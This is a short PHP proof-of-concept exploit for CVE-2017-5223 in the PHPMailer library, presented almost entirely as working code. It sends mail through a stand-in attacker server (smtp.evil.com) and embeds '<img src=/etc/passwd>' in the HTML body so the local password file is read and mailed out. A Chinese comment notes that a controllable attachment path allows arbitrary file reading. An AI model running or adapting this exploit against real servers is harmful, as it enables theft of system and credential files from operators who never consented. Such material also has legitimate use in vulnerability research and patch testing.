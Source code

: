 # CVE-2017-5223
<?php  
#Author:Yxlink
require_once('PHPMailerAutoload.php');
$mail = new PHPMailer();
$mail->IsSMTP();
$mail->Host = "smtp.evil.com";
$mail->Port = 25;
$mail->SMTPAuth   = true;
 
$mail->CharSet  = "UTF-8";
$mail->Encoding = "base64";
 
$mail->Username = "test@evil.com";  
$mail->Password = "tes1234t";  
$mail->Subject = "hello";
 
$mail->From = "test@evil.com";  
$mail->FromName = "test";  
 
$address = "testtest@test.com";
$mail->AddAddress($address, "test");
 
$mail->AddAttachment('test.txt','test.txt');  //test.txt可控即可任意文件读取 
$mail->IsHTML(true);  
$msg="<img src='/etc/passwd'>test";//邮件内容形如这样写。
$mail->msgHTML($msg);
 
if(!$mail->Send()) {
  echo "Mailer Error: " . $mail->ErrorInfo;
} else {
  echo "Message sent!";
}
?>
